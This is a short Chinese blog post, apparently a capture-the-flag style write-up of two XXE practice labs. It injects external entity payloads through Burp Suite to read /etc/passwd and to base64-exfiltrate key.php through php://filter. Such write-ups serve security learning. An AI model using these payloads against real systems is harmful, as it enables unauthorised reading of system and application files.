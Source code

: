 ```yaml
---
layout: post
title: 'XXE'
subtitle: 'XXE靶场练习'
date: 2021-05-26
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: jekyll 前端开发 设计
---
```

### XXE靶场一
> 开启靶场并随便输入值登录
![](https://1024861435.github.io/assets/img/XXE3.png)

> 开启burpsuite抓包
![](https://1024861435.github.io/assets/img/XXE4.png)

> 发送到repeater模块修改发送包

  把key.php的内容进行base64编码并把值给test，然后&test 放回值

  <!DOCTYPE xxe[

<!ENTITY test SYSTEM

"php://filter/convert.base64-encode/resource=key.php">

]>
![](https://1024861435.github.io/assets/img/XXE1.png)

> 把放回的值进行base64解码
![](https://1024861435.github.io/assets/img/XXE2.png)

### XXE靶场二


> 开启靶场并随便输入值登录
> ![](https://1024861435.github.io/assets/img/XXE5.png)

> 开启burpsuite抓包
![](https://1024861435.github.io/assets/img/XXE7.png)

> 发送到repeater模块修改发送包，发现可以读取/etc/passwd文件的内容

 
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE ANY[

<!ENTITY xxe SYSTEM "file:///etc/passwd">

]>
![](https://1024861435.github.io/assets/img/XXE1.png)

>基于之前靶场存放key的方式，推测有key.php的文件
  
于是试着改xxe读该文件

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE ANY[

<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=key.php">

]>

发现读出内容
![](https://1024861435.github.io/assets/img/XXE8.png)

>把内容进行base64解码得到key

![](https://1024861435.github.io/assets/img/XXE9.png)
